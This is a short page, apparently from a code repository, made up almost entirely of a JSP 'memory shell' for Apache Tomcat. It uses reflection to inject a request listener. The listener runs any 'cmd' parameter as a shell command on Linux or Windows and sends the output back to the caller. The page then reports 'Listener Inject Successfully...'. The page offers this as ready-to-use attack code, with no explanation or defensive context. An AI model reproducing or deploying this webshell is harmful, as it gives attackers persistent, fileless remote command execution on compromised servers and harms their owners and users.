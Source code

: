 ### JSP

```jsp
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="org.apache.catalina.connector.RequestFacade" %>
<%@ page import="org.apache.catalina.connector.Request" %>
<%@ page import="org.apache.catalina.connector.Response" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>

<%
    ServletContext servletContext = request.getSession().getServletContext();
    Field context = servletContext.getClass().getDeclaredField("context");
    context.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) context.get(servletContext);
    Field context1 = applicationContext.getClass().getDeclaredField("context");
    context1.setAccessible(true);
    StandardContext standardContext = (StandardContext) context1.get(applicationContext);

    ServletRequestListener listener = new ServletRequestListener() {
        @Override
        public void requestDestroyed(ServletRequestEvent sre) {
        }

        @Override
        public void requestInitialized(ServletRequestEvent sre) {
            RequestFacade requestFacade = (RequestFacade) sre.getServletRequest();
            try {
                String cmd = request.getParameter("cmd");
                Field requestField = RequestFacade.class.getDeclaredField("request");
                requestField.setAccessible(true);
                Request request = (Request) requestField.get(requestFacade);
                Response response = request.getResponse();

                if (cmd != null) {
                    boolean isLinux = true;
                    String osType = System.getProperty("os.name");
                    if (osType != null && osType.toLowerCase().contains("win")) {
                        isLinux = false;
                    }

                    String[] command = isLinux ? new String[]{"sh", "-c", cmd} : new String[]{"cmd.exe", "/c", cmd};
                    InputStream inputStream = Runtime.getRuntime().exec(command).getInputStream();
                    Scanner scanner = new Scanner(inputStream).useDelimiter("h3rmesk1t");
                    String output = scanner.hasNext() ? scanner.next() : "";
                    response.getWriter().write(output);
                    response.getWriter().flush();
                }
            } catch (Exception e) {
                e.printStackTrace();
            }
        }
    };
    standardContext.addApplicationEventListener(listener);
    response.getWriter().write("Listener Inject Successfully...");
%>
```
